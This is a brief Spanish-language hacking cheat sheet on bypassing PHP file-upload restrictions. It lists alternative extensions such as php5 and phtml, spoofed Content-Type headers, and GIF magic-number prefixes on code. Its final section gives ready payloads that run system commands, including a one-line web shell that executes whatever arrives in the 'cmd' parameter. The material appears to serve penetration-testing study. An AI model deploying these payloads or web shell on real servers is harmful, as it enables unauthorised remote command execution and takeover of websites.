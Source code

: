 # Tipos de Bypass

> Conoce algunos tipos de bypass para difente proposito.

## Summary

* [Php](#php)
	* [Subida de archivo](#subida-de-archivos)
	* [Content Type](#content-type)
	* [Magic Number](#magic-number)

## Php

### Subida de archivo

en ocaciones la web no nos permite subir directamente un archivo con extensión `.php` , pero quien sabe las politicas que
tenga implementada ese servidor, existen algunas extensiones que pueden ser de utilidad

- php
- php3
- php4
- php5
- pht
- phtml

### Content Type

otra forma de burlar la restricción de subida de archivos, es cambiando el `Content-Type`

- Content-Type: application/x-php
- Content-Type: image/jpg


### Magic Number

```php
GIF8;
system("whoami");
```

```php
GIF8;
shell_exec("whoami");
```

```php
GIF8;
echo passthru("whoami");
```

```php
GIF8;
$command=$_GET['cmd']; 
echo `$command`;
```
